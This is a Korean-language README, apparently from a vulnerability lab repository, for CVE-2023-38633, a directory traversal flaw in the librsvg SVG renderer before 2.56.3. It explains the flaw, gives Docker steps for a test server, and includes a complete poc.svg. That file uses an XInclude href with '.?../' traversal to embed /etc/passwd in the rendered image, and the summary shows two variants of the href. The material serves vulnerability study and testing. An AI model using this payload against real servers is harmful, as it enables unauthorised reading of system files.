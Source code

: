 # CVE-2023-38633

**Contributors**

-   [박건호(@ian9292)](https://github.com/ian9292)
-   [이승환(@EL55)]((https://github.com/EL55))


### 요약
- Librsvg는 GNOME 프로젝트의 일부로 작성된 무료 소프트웨어 SVG 렌더링 라이브러리로, 가볍고 이식성이 뛰어남.
- 2.56.3 이전의 libsvg의 URL 디코더에서 Directory Traversal 문제는 로컬 또는 원격 공격자가 파일(예상 영역 밖의 로컬 파일 시스템에 있는)을 노출하는 데 사용될 수 있음.
- xi:include 요소에서 href=".?../../../../../../../../../../etc/passwd"와 같은 방식으로 사용될 수 있음.
- xi: include 요소에서 href="?"?/../../.././etc/passwd에 의해 알 수 있음.


### 환경 구성 및 실행
-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8080/`에 접속하여 업로드 페이지에 접근함.
-   `SVG 이미지를 서버에 업로드하면 '/etc/passwd'가 포함된 이미지가 표시됨.


### poc.svg
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

### 결과
![](1.png)
